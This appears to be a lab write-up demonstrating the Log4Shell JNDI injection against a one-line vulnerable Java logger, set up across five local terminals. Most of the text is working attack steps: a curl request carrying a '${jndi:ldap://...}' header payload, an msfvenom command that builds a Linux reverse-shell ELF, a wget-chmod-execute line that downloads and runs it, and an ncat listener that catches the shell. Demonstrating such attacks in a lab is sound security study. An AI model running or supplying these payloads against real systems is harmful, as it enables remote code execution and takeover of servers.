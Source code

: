 Note that the _command line_ is:

```sh
wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf
```

which means the victim will do the download of the `rev.elf` and the execute it.
`rev.elf` is dial back code that is created using metasploit framework.
It is executable that will connect shell to port `4444`.

And LDAP end point is `ldap://10.100.101.100:1389/6qzeif`.
Note last 6 are uniquely generated each time the server is started.

### Victim (Terminal 2)

The victim code that is under attack is just one line:
```java
logger.info("Received a request for API version " + apiVersion);
```

The trick is that the string argument to logger.info() is interpreted by JNDI.
Depending what is sent in `X-Api_Version:` header the result could be pretty interesting.

### dial back (`rev.elf`) server (Terminal 3)

We use metasploit framework to create the dial back code and HTTP host on port 8081.
The command line to create it is:

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o /tmp/rev.elf
```

### Ncat receiving dial back (Terminal 4)

There is no special code, we simply use ncat:

```sh
sudo nc -lvnp 4444
```

### Attacking curl (Terminal 5)

Again there is no special code, we just use curl with the LDAP end point from above encoded:

```sh
curl 127.0.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://10.100.101.100:1389/6qzeif}'
```

## Snipets

### Terminal 5

```sh
$ curl 127.0.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://10.100.101.100:1389/6qzeif}'
Hello, world!
```
